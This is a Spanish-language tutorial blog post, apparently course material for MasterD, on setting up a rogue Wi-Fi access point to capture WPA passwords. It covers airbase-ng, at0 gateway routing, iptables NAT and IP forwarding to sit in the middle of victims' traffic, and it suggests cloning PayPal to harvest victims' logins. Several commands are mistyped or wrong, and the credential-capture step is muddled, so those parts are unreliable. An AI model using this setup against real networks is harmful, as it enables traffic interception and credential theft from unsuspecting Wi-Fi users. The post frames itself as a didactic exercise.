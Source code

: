 ```yaml
---
title: MTD - Fake Ap 
published: true
categories: [Linux]
tags: [eJPT, eWPT, eCPPTv2, OSCP, Medio]
---
```



¡Hola! Hoy vamos a montar un fake AP para poder obtener la contraseña WPA de la red Wireless,
puede usarse un método manual con airbase-ng, o algún script automatizado.


### Técnicas Vistas: 

- **RogueApp con Airbase**
- **DNSmasq**
- **Duplicado de Servicio Web**
* * *

# Preparación Entorno
Para empezar con nuestro ejercicio comenzaremos con la creación del FakeAP con `rogueAP`. Para esto necesitaremos tener nuestra interfaz USB activada en modo monitor.

```bash
airmon-ng check kill
```
```bash
airmon-ng start wlan0
```

Y con ello mataremos cualquier proceso que pueda hacer crashear nuestra interfaz USB e iniciaremos el modo monitor en nuestra interfaz USB, podemos comprobarlo con el uso de `iwconfig`.

* * * 
# RogueAP con Airbase
Una vez preparada nuestra interfaz USB podremos comenzar con la creación del `Rogue Acces Point` para obtener las credenciales WPA, para ello suplantaremos la dirección MAC, el nombre y su canal del punto de acceso.

Nuestro nombre de red será `Concepto De Prueba` en este caso para poder visualizar bien el ejercicio y lo colocaremos en el canal 6 y lo iniciaremos en la interfaz USB en `Mode : Monitor`

```bash
airbase-ng -c 6 -essid "Prueba de concepto" wlan0mon
```

Una vez creado el `Acces Point` veremos que se nos crea una nueva interfaz de red `at0`, lo que haremos es configurarla para que sea la puerta de enlace hacia nuestra red.

* * *


# Configuración de RogueAP

Nuestro objetivo en este punto es hacer que nuestra nueva interfaz de red `at0`
sea la puerta de enlace hacia nuestra red así poder esnifar el tráfico y estar en medio de las comunicaciones.

```bash
ifconfig at0 192.168.1.1 netmask 255.255.255.0
```
```bash 
at0 up
```

Podemos observar con `ìfconfig` que nuestra interfaz de red tiene la dirección de IP y la máscara red seleccionada.

En el siguiente punto veremos como configurar `dnsmasq` para poder enrutar la conexión de nuestra nueva red con nuestra máquina.

* * * 

# DNSMASQ
Dnsmasq es un script automatizado que nos ayudará a enrutar las redes de nuestra máquina con la nueva red que hemos creado como Rogue Acces Point.

`DNSMASQ` lo podemos instalar desde nuestra máquina linux facilmente `apt install dnsmasq`
Una vez instalado vamos a ver la configuración red que tenemos preinstalada en nuestra máquina y enrutaremos la red `Prueba de Concepto` con la red que tenemos en nuestra máquina para ello usaremos

```bash
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1 
```

Seguidamente limpiaremos las `IPTABLES` y `nat` 

```bash
iptables f
```
```bash
iptables -f nat -F 
```
Y las enrutaremos de nuevo con las de nuestra red.

```bash
iptables -A FORWARD -i wlan0mon -o eth0 -j ACCEPT
```

```bash
iptables -A FORWARD -i at0 -o eth0 -j ACCEPT
```
Al igual lo haremos en las tablas `NAT`
```bash
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
Una vez configurada las `IPTABLES` le diremos a nuestro sistema que nuestra interfaz de red va a servir para hacer un `ip_forward` lo que quiere decir que todo paquete que entre en nuestra red y no sea para nuestro equipo, `nuestra máquina` será la encargada de enviarlo hacia su destinatario. Lo que conseguimos ponernos en medio de las comunicaciones.

```bash
echo 1 > /proc/sys/nat/ipv4/ip_foward
```

Ahora ejecutaremos dnsmasq con el fichero de configuracion previamente configurado.

```bash
dnsmasq -C ./dnsmasq.conf -D
```

El comando `-D` hará que nuestro script se mantenga activo como un `devil` y en segundo plano trabajando como un servicio. Una vez establecida la conexión. 


* * *

# HABILITAR SERVICIO DE APACHE
En este punto de la conexión red podriamos hacer una aplicación web en relación con nuestra víctima (página web que suela frecuentar) y deberiamos configurarla en nuestro fichero `/etc/host`

Podríamos crear un duplicado de la web de paypal.com haciendo que cuando nuestra víctima entre, se conectará directamente a nuestra máquina que con un simple script hará que el firewall le solicite reloguearse haciendo que se guarden las credenciales en nuestro fichero de archivo `etc/host`

* * *

***Esto es un ejercicio con fines didácticos realizado para MasterD.***
